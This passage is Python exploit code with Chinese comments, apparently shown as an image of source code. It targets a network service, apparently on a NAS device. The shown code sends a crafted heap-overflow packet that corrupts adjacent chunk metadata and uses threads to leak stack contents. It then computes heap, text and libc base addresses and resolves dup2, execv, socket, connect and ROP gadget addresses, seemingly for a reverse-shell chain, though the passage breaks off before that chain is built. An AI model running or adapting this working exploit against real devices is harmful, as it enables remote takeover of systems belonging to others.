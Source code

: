 ```python
    # 0x90 是溢出边界
    # 任意控制相邻堆块的 prev_size 字段和 size 字段
    # packet = b'b' * 0x1000
    # 0xfffffffffec12000 是 0x13EE000 的负数的补码
    # glibc mmap的阈值是16MB
    packet = b'b' * 0x80 + p64(0x10050) + p64(0x145) + p64(0xdeadbeefdeadbeef) * 0x26
    packet += p64(0xfffffffffec12000) + p64(0x1bef007)
    s.sendall(packet)
    
    # step 4:
    print("step 4: create a temp thread")
    th_tmp = threading.Thread(target=tmp_thread, args=(ip, port))
    th_tmp.start()
    sleep(1)
    
    # step 5:
    print("step 5: create a long-live thread, kick out previous tmp thread")
    th_long_live = threading.Thread(target=long_live_thread, args=(ip, port))
    th_long_live.start()
    
    # step 6: information leak
    print("step 6: leak the content of long-live thread stack")
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((ip, port))
    
    # do not kick out the long-live thread
    packet = p32(0x2) + p32(0) + p32(9) + \
        p32(0x6) + b'qts588' + p32(0) + b'a'*0x40
        
    s.sendall(packet)
    
    recv_buf = b''
    while True:
        recv_buf = s.recv(2048)
        if recv_buf.find(b'\x10\x00\x00\x00\x03\x03\x03\x03') != -1:
            break
    
    tag_index = recv_buf.find(b'\x10\x00\x00\x00\x03\x03\x03\x03')
    heap_addr = u64(recv_buf[tag_index+80 : tag_index+88].ljust(8, b'\x00'))
    text_addr = u64(recv_buf[tag_index+88 : tag_index+96].ljust(8, b'\x00'))
    libc_addr = u64(recv_buf[tag_index+40 : tag_index+48].ljust(8, b'\x00'))
    
    heap_off = 0x7fe0edbff430 - 0x7fe0ed400000
    text_off = 0x7fe0f38350d4 - 0x7fe0f21f7000
    libc_off = 0x7f00168657af - 0x7f0016767000
    binsh_off = 0x7f8b55bff3d0 - 0x7f8b55400000
    
    heap_base = heap_addr - heap_off
    text_base = text_addr - text_off
    libc_base = libc_addr - libc_off
    
    dup2_addr = 0x10EAE0 + libc_base - 0x22000
    execv_addr = 0xE32D0 + libc_base - 0x22000
    setsockopt_addr = 0x120960 + libc_base - 0x22000
    socket_addr = 0x1209C0 + libc_base - 0x22000
    connect_addr = 0x1203B0 + libc_base - 0x22000
    ret_addr = ret_offset + text_base
    pop_rdi_ret_addr = pop_rdi_ret + text_base
    pop_rsi_ret_addr = pop_rsi_ret + text_base
    pop_rax_ret_addr = pop_rax_ret + text_base
    pop_rbx_ret_addr = pop_rbx_ret + text_base
    pop_rcx_ret_addr = pop_rcx_ret + text_base
    pop_rdx_ret_addr = pop_rdx_ret + text_base
```